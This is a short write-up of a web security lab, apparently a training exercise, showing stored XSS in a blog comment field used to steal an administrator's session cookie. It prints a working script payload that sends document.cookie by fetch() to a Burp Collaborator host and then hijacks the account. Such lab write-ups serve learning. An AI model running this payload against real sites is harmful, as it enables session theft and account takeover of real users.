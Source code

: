 This is a real usage of XSS to steal cookies.
First, let's see the vulnerable endpoint:

Leaving our payloads in the field we think are vulnerable:
![](imgs/xss_cookie_steal.png)

One of the payloads get rendered:
![](imgs/xss_cookie_steal-1.png)

It is the comment section, as the text on the user name is displayed and the comment is not:
![](imgs/xss_cookie_steal-2.png)

We can create now our payload which basically will perform an HTTP request to our Burp Collaborator server, embedding the cookie as one of the headers:

```javascript
<script> 
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie }); 
</script>
```

Let's set up Burp Collaborator:
![](imgs/xss_cookie_steal-3.png)

Our payload would be:
```javascript
<script> 
fetch('https://h0i6de4wth9eor4zipkzqrgek5qwen2c.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie }); 
</script>
```

![](imgs/xss_cookie_steal-4.png)

The victim will visit this website. If we click on "poll now" in Burp Collaborator, we can see a request from another IP:
![](imgs/xss_cookie_steal-5.png)

Inspecting the HTTP requests leads to this:
![](imgs/xss_cookie_steal-6.png)

Using the `session` cookie leads us to the victim's account:
![](imgs/xss_cookie_steal-7.png)

We can see that we are the administrator user:
![](imgs/xss_cookie_steal-8.png)

Updating the email leads us to solve the lab:
![](imgs/xss_cookie_steal-9.png)

